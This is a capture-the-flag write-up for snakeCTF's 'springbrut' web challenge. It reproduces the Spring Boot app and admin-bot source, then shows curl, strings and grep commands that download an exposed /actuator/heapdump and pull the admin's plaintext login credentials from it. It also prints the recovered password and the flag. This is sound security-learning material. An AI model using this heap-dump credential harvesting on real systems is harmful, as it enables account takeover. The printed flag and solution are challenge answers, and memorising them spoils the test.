



# springbrut [9 Solves]

## Description

> The app our new intern made must have some issues, because I saw him checking some weird numbers... Can you figure it out?
>
> <https://springbrut.snakectf.org>
>
> Attachments: web_springbrut.tar

<details><summary>Attachment file tree</summary>

```console
$ tree web_springbrut
web_springbrut
├── compose.yml
└── src
    ├── bot
    │   ├── bot.js
    │   ├── Dockerfile
    │   └── package.json
    ├── db
    │   └── schema.sql
    └── springbrut
        ├── Dockerfile
        ├── flag
        ├── mvnw
        ├── pom.xml
        ├── src
        │   └── main
        │       ├── java
        │       │   └── com
        │       │       └── springbrut
        │       │           └── springbrut
        │       │               ├── config
        │       │               │   ├── CustomAuthenticationFailureHandler.java
        │       │               │   ├── CustomAuthenticationSuccessHandler.java
        │       │               │   ├── LogFormatter.java
        │       │               │   └── SecurityConfig.java
        │       │               ├── controller
        │       │               │   ├── AuthController.java
        │       │               │   └── RootController.java
        │       │               ├── domain
        │       │               │   ├── entity
        │       │               │   │   └── User.java
        │       │               │   └── repository
        │       │               │       └── UserRepository.java
        │       │               ├── service
        │       │               │   └── CoolUsersDetailsService.java
        │       │               ├── session
        │       │               │   └── MyUserPrincipal.java
        │       │               └── SpringBrutApplication.java
        │       └── resources
        │           ├── application.properties
        │           ├── static
        │           │   └── js
        │           │       └── worker.js
        │           └── templates
        │               ├── flag.html
        │               └── status.html
        └── target
            ├── classes
            │   ├── application.properties
            │   ├── com
            │   │   └── springbrut
            │   │       └── springbrut
            │   │           ├── config
            │   │           │   ├── CustomAuthenticationFailureHandler.class
            │   │           │   ├── CustomAuthenticationSuccessHandler.class
            │   │           │   ├── LogBookConfiguration.class
            │   │           │   ├── LogFormatter.class
            │   │           │   └── SecurityConfig.class
            │   │           ├── controller
            │   │           │   ├── AuthController.class
            │   │           │   └── RootController.class
            │   │           ├── domain
            │   │           │   ├── entity
            │   │           │   │   └── User.class
            │   │           │   └── repository
            │   │           │       └── UserRepository.class
            │   │           ├── service
            │   │           │   └── CoolUsersDetailsService.class
            │   │           ├── session
            │   │           │   └── MyUserPrincipal.class
            │   │           └── SpringBrutApplication.class
            │   ├── static
            │   │   └── js
            │   │       └── worker.js
            │   └── templates
            │       ├── flag.html
            │       └── status.html
            ├── generated-sources
            │   └── annotations
            ├── generated-test-sources
            │   └── test-annotations
            └── test-classes

42 directories, 40 files
```

</details>

<details><summary>src/springbrut/pom.xml</summary>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>3.1.1</version>
        <relativePath /> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.springbrut</groupId>
    <artifactId>springbrut</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>SpringBrut</name>
    <description>Spring has never been so brut!</description>
    <properties>
        <java.version>17</java.version>
        <spring-security.version>6.1.4</spring-security.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.zalando</groupId>
            <artifactId>logbook-spring-boot-starter</artifactId>
            <version>3.7.0</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-data-jpa</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-security</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-actuator</artifactId>
        </dependency>
        <dependency>
            <groupId>org.thymeleaf.extras</groupId>
            <artifactId>thymeleaf-extras-springsecurity6</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-docker-compose</artifactId>
            <scope>runtime</scope>
            <optional>true</optional>
        </dependency>
    <dependency>
        <groupId>org.mariadb.jdbc</groupId>
        <artifactId>mariadb-java-client</artifactId>
    </dependency>
        <dependency>
            <groupId>org.projectlombok</groupId>
            <artifactId>lombok</artifactId>
            <optional>true</optional>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
                <configuration>
                    <excludes>
                        <exclude>
                            <groupId>org.projectlombok</groupId>
                            <artifactId>lombok</artifactId>
                        </exclude>
                    </excludes>
                </configuration>
            </plugin>
        </plugins>
    </build>

</project>
```

</details>

## Flag

snakeCTF{N0_m3morY_L3akS???}

## TL;DR

- Leak admin's password by URL path /actuator/heapdump, which is provided by Spring Boot Actuator
- Login as admin and access URL path /auth/flag to get flag

## Investigation

compose.yml

```yaml
version: "3"
services:
  springbrut:
    build:
      context: ./src/springbrut
    image: springbrut
    restart: unless-stopped
    ports:
      - "5002:8080"
    depends_on:
      - database
  database:
    image: mariadb:11
    restart: unless-stopped
    volumes:
      - ./src/db/:/docker-entrypoint-initdb.d
    environment:
      - "MYSQL_RANDOM_ROOT_PASSWORD=yes"
  bot:
    build:
      context: ./src/bot
    image: springbrut-bot
    restart: unless-stopped
    environment:
      - "ADMIN_PASSWORD=REDACTED"
```

This Web application has 3 container, springbrut, database and bot.
Runing `docker-compose up` to test in localhost.

### springbrut

Accessing <http://localhost:5002/>:



It redirects /login.
I searched for the source code of this /login page in the attachment, but not found.

```console
$ grep 'Please sign in' -R .

$ grep '/Y6pD6FV/Vv2HJnA6t+vslU6fwYXjCFtcEpHbNJ0lyAFsXTsjBbfaDjzALeQsN6M' -R .

$
```

Searched image for this login page on Google Images Search, I found the following:

- [Spring Security — Chapter 1 - DZone](https://dzone.com/articles/spring-security-chapter-1)
- [Mastering Authorization and Authentication With Spring Security \| HackerNoon](https://hackernoon.com/mastering-authorization-and-authentication-with-spring-security)
- [How to use Spring Security Form-Based Authentication in Spring Boot Example](https://springjava.com/spring-boot/how-to-use-spring-security-form-based-authentication-in-spring-boot)

This login page is the default login page of [Spring Security](https://spring.io/projects/spring-security).
I believe the HTML file for /login page was not found in the attached files because it is bundled in the JAR file for Spring Security (spring-security-web-6.1.4.jar).

In localhost, admin's username and password is `admin` and `REDACTED` respectively.
I logged in by `admin:REDACTED` credential, it redirected to `/`, then redirected to `/auth/helloworld`.



The source code for this page is:

Server-side: src/springbrut/src/main/java/com/springbrut/springbrut/controller/AuthController.java

```java
package com.springbrut.springbrut.controller;

import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;

import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;

@Controller
@RequestMapping("/auth")
public class AuthController {
  @GetMapping("/helloworld")
  public String salutavaSempre() {
    return "status";
  }

  @GetMapping("/flag")
  public ResponseEntity<String> flaggavaSempre() {
    File f = new File("/flag");
    String flag;
    try {
      InputStream in = new FileInputStream(f);
      flag = new String(in.readAllBytes());
      in.close();
    } catch (Exception e) {
      flag = "PLACEHOLDER";
    }
    return new ResponseEntity<String>(flag, HttpStatus.OK);
  }
}
```

2 URL paths are found, /auth/helloworld and /auth/flag.
It seems to get the flag by URL path /auth/flag.

Client-side: src/springbrut/src/main/resources/templates/status.html

```html
<head>
    <title>Admin page</title>
</head>

<body>
    <h1>Hello World!</h1>
    <p>Here's the status of the app:</p>
    <p>Disk free: <span id="disk.free"></span></p>
    <p>Requests: <span id="http.server.requests"></span></p>
    <p>CPU: <span id="process.cpu.usage"></span></p>
    <p>Process uptime: <span id="process.uptime"></span></p>
    <p>Load average (1m): <span id="system.load.average.1m"></span></p>
    <script>
        const w = new Worker("/js/worker.js");
        w.onmessage = (event) => {
            field = event.data.name;
            tag = window.document.getElementById(field);
            tag.innerText = event.data.value;
        }
    </script>
</body>

</html>
```

Client-side: src/springbrut/src/main/resources/static/js/worker.js

```javascript
const setMetric = (name) => {
  fetch(`/actuator/metrics/${name}`).then(res => res.json()).then(json => {
    console.log({json});
    self.postMessage({name, value: json.measurements[0].value});
  });
};
const updateAll = () => {
  console.log('updating...');
  setMetric('disk.free');
  setMetric('http.server.requests');
  setMetric('process.cpu.usage');
  setMetric('system.load.average.1m');
  setMetric('process.uptime');
};
updateAll();
setTimeout(updateAll, 1000);
```

client to server requests are sent to URL paths such as /actuator/metrics/disk.free.
These endpoints are provided by [Spring Boot Actuator](https://www.baeldung.com/spring-boot-actuators) for Web application monitoring.

Useful article for Exploiting Spring Boot Actuators:

- [Spring Actuators - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators/)
- [Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators](https://blog.maass.xyz/spring-actuator-security-part-1-stealing-secrets-using-spring-actuators#heading-actually-ill-just-have-everything-to-go-please)

Looking at the available endpoint:

```console
$ curl -s http://localhost:5002/actuator | jq '._links | to_entries[].value.href' -r
http://localhost:5002/actuator
http://localhost:5002/actuator/beans
http://localhost:5002/actuator/caches/{cache}
http://localhost:5002/actuator/caches
http://localhost:5002/actuator/health
http://localhost:5002/actuator/health/{*path}
http://localhost:5002/actuator/info
http://localhost:5002/actuator/conditions
http://localhost:5002/actuator/configprops
http://localhost:5002/actuator/configprops/{prefix}
http://localhost:5002/actuator/env
http://localhost:5002/actuator/env/{toMatch}
http://localhost:5002/actuator/loggers
http://localhost:5002/actuator/loggers/{name}
http://localhost:5002/actuator/heapdump
http://localhost:5002/actuator/threaddump
http://localhost:5002/actuator/metrics/{requiredMetricName}
http://localhost:5002/actuator/metrics
http://localhost:5002/actuator/scheduledtasks
http://localhost:5002/actuator/mappings
```

Trying the above endpoints, it seems that URL path /heapdump is useful:

```console
$ curl -s http://localhost:5002/actuator/heapdump -o local-heapdump.bin

$ strings local-heapdump.bin | grep REDACTED
REDACTED!
username=admin&password=REDACTED&_csrf=-LmK3co0CBnCh8-QCH8GmWv-0zj64I_8aBUxBH0o9UlHVB3Am9i566tSbHjv4_6iPVIyoQ3O_gGb0erRXScGZhxNkHtwbSny11
(snip)
snakeCTF{REDACTED}
```

I could get the admin's password which is submitted for login, the dummy flag too.

### bot

<details><summary>src/bot/bot.js</summary>

```javascript
const puppeteer = require('puppeteer');
const net = require('net');
const WEBSITE = process.env['WEBSITE'] || 'http://springbrut:8080'

const LOGIN_PAGE = WEBSITE + "/login"
const ADMIN_USERNAME = "admin"
const ADMIN_PASSWORD = process.env['ADMIN_PASSWORD'] || "admin"

console.log(`Starting admin bot!`);

(async () => {
    const doAdmin = async () => {
        const browser = await puppeteer.launch({
            //executablePath: '/usr/bin/google-chrome-stable',
            headless: true,
            dumpio: true,
            args: [
                '--no-sandbox',
                '--disable-background-networking',
                '--disable-default-apps',
                '--disable-extensions',
                '--disable-gpu',
                '--disable-sync',
                '--disable-translate',
                '--hide-scrollbars',
                '--metrics-recording-only',
                '--mute-audio',
                '--no-first-run',
                '--safebrowsing-disable-auto-update'
                //'--enable-logging=stderr',
            ]
        });
        try {
            var context = await browser.createIncognitoBrowserContext();
            var page = await context.newPage();
            console.log('logging in and checking status');
            await page.goto(LOGIN_PAGE, { waitUntil: "networkidle2" });
            console.log('Waiting for username');
            await page.waitForSelector('input[name="username"]');
            console.log('Typing username');
            await page.type('input[name="username"]', ADMIN_USERNAME, {
                delay: 5,
            });
            console.log('Waiting for password');
            await page.waitForSelector('input[name="password"]');
            console.log('Typing for password');
            await page.type('input[name="password"]', ADMIN_PASSWORD, {
                delay: 5,
            });
            console.log('Waiting for submit');
            await page.waitForSelector('button[type="submit"]');
            console.log('Clicking submit');
            await page.click('button[type="submit"]');
            console.log('Waiting for page load');
            await page.waitForNetworkIdle(3000);
            console.log('Login successful, waiting a bit :)');
            await page.waitForTimeout(3000);
            console.log('Cleaning up mess');
            await page.close();
            await context.close();
        } catch (err) {
            console.log('Error occurred');
            console.log(err);
        }
        await browser.close();
    }
    setTimeout(doAdmin, 5000);
    setInterval(doAdmin, 60000);
}
)();
```

</details>

This bot is accessing springbrut's login page `http://springbrut:8080`.
And it input admin's username and password, then submit.

Therefore, if the admin's password can be leaked by URL path /heapdump, we can login as admin and get the flag.

## Solution

```console
$ curl -s https://springbrut.snakectf.org/actuator/heapdump -o heapdump.bin

$ strings heapdump.bin | grep 'username=admin&password='
username=admin&password=DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b&_csrf=8T8e7zlBZQX6f(snip)
(snip)
```

Got admin's password `DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b`.
Login as admin with `admin:DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b` credential, then accessing URL path /auth/flag.


